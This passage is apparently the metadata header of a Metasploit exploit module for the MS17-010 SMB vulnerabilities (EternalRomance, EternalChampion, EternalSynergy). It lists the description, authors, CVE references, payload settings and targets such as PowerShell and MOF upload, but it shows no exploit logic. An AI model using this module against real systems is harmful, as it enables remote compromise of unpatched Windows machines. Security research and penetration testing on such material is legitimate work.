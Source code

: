         Exploits a type confusion between Transaction and WriteAndX requests and a race condition in
        Transaction requests, as seen in the EternalRomance, EternalChampion, and EternalSynergy
        exploits. This exploit chain is more reliable than the EternalBlue exploit, but requires a
        named pipe.
      },
      'Author'         =>
        [
          'sleepya',          # zzz_exploit idea and offsets
          'zerosum0x0',
          'Shadow Brokers',
          'Equation Group'
        ],
      'License'        => MSF_LICENSE,
      'DefaultOptions' =>
        {
          'WfsDelay'     => 10,
          'EXITFUNC' => 'thread'
        },
      'References'     =>
        [
          [ 'AKA', 'ETERNALSYNERGY' ],
          [ 'AKA', 'ETERNALROMANCE' ],
          [ 'AKA', 'ETERNALCHAMPION' ],
          [ 'AKA', 'ETERNALBLUE'],  # does not use any CVE from Blue, but Search should show this, it is preferred
          [ 'MSB', 'MS17-010' ],
          [ 'CVE', '2017-0143'], # EternalRomance/EternalSynergy - Type confusion between WriteAndX and Transaction requests
          [ 'CVE', '2017-0146'], # EternalChampion/EternalSynergy - Race condition with Transaction requests
          [ 'CVE', '2017-0147'], # for EternalRomance reference
          [ 'URL', 'https://github.com/worawit/MS17-010' ],
          [ 'URL', 'https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf' ],
          [ 'URL', 'https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/' ],
        ],
      'Payload'        =>
        {
          'Space'        => 3072,
          'DisableNops'  => true
        },
      'Platform'       => 'win',
      'Arch'           => [ARCH_X86, ARCH_X64],
      'Targets'        =>
        [
          [ 'Automatic', { } ],
          [ 'PowerShell', { } ],
          [ 'Native upload', { } ],
          [ 'MOF upload', { } ]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'Mar 14 2017'
    ))
